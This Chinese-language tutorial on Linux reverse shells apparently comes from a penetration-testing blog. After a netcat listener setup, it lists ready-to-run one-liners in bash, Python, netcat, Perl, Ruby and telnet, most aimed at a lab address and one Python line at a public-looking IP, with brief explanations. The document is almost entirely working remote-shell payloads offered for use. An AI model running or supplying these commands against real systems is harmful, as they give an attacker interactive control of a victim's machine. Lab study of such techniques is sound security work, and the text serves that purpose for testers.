# 简介

LInux反弹Shell(Reveser Shell), 也可以称为反向Shell, 由被控制端主动向控制端发送请求建立通讯, 随后将执行命令的结果输出到控制端, 本质上是网络概念的客户端与服务端的角色反转

本篇文章介绍LINUX反弹Shell的多种姿势, 在真实的渗透环境中, 根据客户端存在哪些命令的实际情况, 来采取相应的反弹shell姿势

<br>

# 实验环境

| 操作系统             | IP地址         |
| -------------------- | -------------- |
| Kali Linux(服务端)   | 192.168.47.155 |
| Ununtu Linux(客户端) | 192.168.47.151 |

<br>

# 服务端监听端口

服务端kali监听端口

```
nc -lvp 4444
```

	

<br>

# 客户端反弹shell

## 1.bash反弹

```
bash -i >& /dev/tcp/192.168.47.155/4444 0>&1
```

> - `bash -i` 表示在本地打开一个交互式BashSehll
> - `/dev/tcp`是Linux一个特殊设备, 打开该文件相当于建立socket连接, 读写该文件相当于在socket连接中传输数据
> - `0>&1`将标准输入重定向至标准输出
>
> `bash -i >& /dev/tcp/192.168.47.155/4444`表示将bash的标准输出和标准错误输出发送给远程服务器的4444端口。我们只要客户端主机输入命令, 命令执行的结果以及错误提示都会发送给远程服务器

	

	

<br>		

## 2.python反弹

### python3

```
python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('123.6.44.67',9090));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

	

	

<br>

### python2

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.47.155",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

	

	

<br>

## 3.nc反弹shell

```
nc 192.168.47.155 4444 -e /bin/bash
```

> -e后面接的参数表示在创建连接后执行的程序

	

	

<br>

有些老版本的nc不支持`-e`参数, 可使用如下命令进行反弹

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.47.155 4444 >/tmp/f
```

	

	

<br>

## 4.perl反弹

### 依赖`/bin/sh`

```
perl -e 'use Socket;$i="192.168.47.155";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

	

	

<br>	

### 不依赖`/bin/sh`	

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.47.155:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

	

	

<br>

## 5.ruby反弹

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.47.155","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

	



<br>

## 6.telnet反弹

```
mknod backpipe p && telnet 192.168.47.155 4444 0<backpipe | /bin/bash 1>backpipe
```

	

		

